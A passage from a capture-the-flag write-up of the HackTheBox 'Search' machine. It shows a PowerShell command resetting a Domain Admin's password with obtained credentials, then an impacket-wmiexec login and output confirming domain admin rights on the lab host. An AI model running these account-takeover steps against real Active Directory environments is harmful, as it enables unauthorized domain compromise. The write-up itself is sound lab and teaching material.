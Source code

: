 ```powershell
Invoke-Command -ComputerName 127.0.0.1 -ScriptBlock {Set-ADAccountPassword -Identity Tristan.Davies -reset -NewPassword (ConvertTo-SecureString -AsPlainText 'FinallyPwnedThisAD!!GG' -force)} -Credential $credential
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/HackTheBox/Search/images/Pasted%20image%2020230727191202.png)

**Finally, we can use `wmiexec` or other tools to login as the Domain Admin with our new password:**
```shell
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Search)-[2023.07.27|18:25:57(HKT)]
└> impacket-wmiexec research.search.htb/Tristan.Davies:'FinallyPwnedThisAD!!GG'@search.htb 
[...]
C:\>whoami
search\tristan.davies

C:\>ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : Research
   Primary Dns Suffix  . . . . . . . : search.htb
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : search.htb
                                       htb

Ethernet adapter Ethernet0 2:

   Connection-specific DNS Suffix  . : htb
   Description . . . . . . . . . . . : vmxnet3 Ethernet Adapter
   Physical Address. . . . . . . . . : 00-50-56-B9-EB-D4
   DHCP Enabled. . . . . . . . . . . : No
   Autoconfiguration Enabled . . . . : Yes
   IPv6 Address. . . . . . . . . . . : dead:beef::ce(Preferred) 
   Lease Obtained. . . . . . . . . . : 27 July 2023 06:03:44
   Lease Expires . . . . . . . . . . : 27 July 2023 13:03:44
   IPv6 Address. . . . . . . . . . . : dead:beef::79e7:5550:1492:3709(Preferred) 
   Link-local IPv6 Address . . . . . : fe80::79e7:5550:1492:3709%6(Preferred) 
   IPv4 Address. . . . . . . . . . . : 10.10.11.129(Preferred) 
   Subnet Mask . . . . . . . . . . . : 255.255.254.0
   Default Gateway . . . . . . . . . : fe80::250:56ff:feb9:6ca8%6
                                       10.10.10.2
[...]
C:\>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                    Type             SID                                          Attributes                                                     
============================================= ================ ============================================ ===============================================================
Everyone                                      Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                        Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
SEARCH\Domain Admins                          Group            S-1-5-21-271492789-1610487937-1871574529-512 Mandatory group, Enabled by default, Enabled group             
[...]
```